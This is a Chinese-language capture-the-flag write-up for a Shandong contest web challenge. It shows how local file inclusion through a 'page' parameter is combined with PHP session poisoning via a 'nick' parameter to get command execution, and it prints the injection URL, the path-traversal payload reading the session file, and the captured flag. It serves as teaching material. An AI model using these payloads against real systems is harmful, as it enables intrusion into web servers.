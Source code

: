 ```yaml
---
layout: post
title: 山东省新一代攻防赛wp
---
```


> 地点：聊城职业学院 ， u1s1门口的小摊挺多的（哧溜～) 

## web

## web1 （反正就是有很多页面，你能发现其中的关键信息吗？）

知识点（细心最重要！尽量每个操作都要抓包分析）

- 信息收集
- 文件包含
- 代码审计
- session特性

打开题目，只有一个登录表单

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ktzlbxj30tc16eaz7.jpg" alt="image-20201124101408979" style="zoom: 33%;" />

二话不说，直接dirsearch一波

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ntxh1vj315b0u0aux.jpg" alt="image-20201124101705278"  />

/php.php 是个phpinfo

访问`/register.php`注册个账户去登录，登录处抓包

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01vv26xrj31ye0q2qbz.jpg" alt="image-20201124102449438"  />

后面简单测了测发现登录处过滤了单引号，sql注入是不行了，继续往下跟

![image-20201124102851131](https://tva1.sinaimg.cn/large/0081Kckwly1gl0202hdpaj32iw0mo1a8.jpg)

发现好像进入了后台界面，同时发现了hint

​	`<!--hint: m4nageee.php-->`

但是这还是个302跳转包，跳到了`/user.php?page=guest` 可见程序对登录用户做了判断。

简单测了下`page`参数发现有任意文件包含

![image-20201124103737192](https://tva1.sinaimg.cn/large/0081Kckwly1gl0296n5ofj31uo0p2n6l.jpg)

包含m4nageee.php，发现后台有个表单

![image-20201124111402262](https://tva1.sinaimg.cn/large/0081Kckwly1gl03b2hmdvj30s40nqgpa.jpg)

于是读`m4nageee.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/profile233.html";

?>
```

访问`templates/profile233.html`查看源代码

![image-20201124110331496](https://tva1.sinaimg.cn/large/0081Kckwly1gl0304hz6nj30m40a6ac1.jpg)

看到了这段代码就懂了，解释一下：

如果`nick`参数为空，就把`nick`的值赋给`session`的`nick`的值，众所周知，`session`是存储在服务器端的

而且`nick`的值没有做过滤，所以当`session`可控时，就可以传入恶意代码

构造payload

```php
http://47.105.128.249:36001/user.php?nick=<?php @system($_GET[c]);?>&page=m4nageee
```

session保存路径在之前发现的phpinfo文件可以查到

![image-20201124112704975](https://tva1.sinaimg.cn/large/0081Kckwly1gl03on7kkfj30g401at8q.jpg)

当前session

![image-20201124113029636](https://tva1.sinaimg.cn/large/0081Kckwly1gl03s6pv4dj30e005emxh.jpg)

包含session文件，getshell

```
http://47.105.128.249:36001/user.php?page=../../../var/lib/php5/sess_90qqo7oj3p9ca8jdsousbk8ld0&c=cat fl*
```



![image-20201124114630721](https://tva1.sinaimg.cn/large/0081Kckwly1gl048um28xj31h407kgnl.jpg)

`flag{c785407bfa1c768e50373480ad5c2765}`

